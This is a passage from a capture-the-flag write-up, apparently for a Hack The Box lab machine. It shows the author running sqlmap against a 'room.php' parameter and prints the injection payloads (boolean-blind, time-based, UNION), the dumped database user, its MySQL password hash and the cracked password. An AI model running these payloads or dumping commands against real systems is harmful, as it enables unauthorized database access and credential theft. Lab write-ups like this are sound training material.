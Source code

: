 
### sqlmap
Attempting SQL injection manually through the url bar didn't get us very far. In this instance we turn to sqlmap to do the work for us (feel like script kiddie?). Below is the output for having sqlmap dump the output of the usernames and passwords it can find. 

**Note**: It should be noted that these were cached already because I first ran sqlmap with the `-a` flag.

```console
root@kali:~# sqlmap -u 'http://10.10.10.143/room.php?cod=5' --users --passwords
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.3.6#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:56:36 /2019-07-22/

[11:56:36] [INFO] resuming back-end DBMS 'mysql' 
[11:56:36] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cod (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cod=5 AND 9234=9234

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: cod=5 AND (SELECT 8600 FROM (SELECT(SLEEP(5)))FUdN)

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: cod=-1326 UNION ALL SELECT NULL,CONCAT(0x716a716a71,0x67666f747663416d57796c4c674d574841464b6e62774362465953737151417651536f7a526e526e,0x7170787871),NULL,NULL,NULL,NULL,NULL-- rAJB
---
[11:56:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9.0 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12
[11:56:37] [INFO] fetching database users
[11:56:37] [INFO] used SQL query returns 28 entries
database management system users [1]:                                                 
[*] 'DBadmin'@'localhost'

[11:56:37] [INFO] fetching database users password hashes
[11:56:37] [INFO] used SQL query returns 1 entry
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[11:56:41] [INFO] writing hashes to a temporary file '/tmp/sqlmapgPiv8o5143/sqlmaphashes-NceIbU.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[11:56:44] [INFO] using hash method 'mysql_passwd'
[11:56:44] [INFO] resuming password 'imissyou' for hash '*2d2b7a5e4e637b8fba1d17f40318f277d29964d0' for user 'DBadmin'
database management system users password hashes:
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
```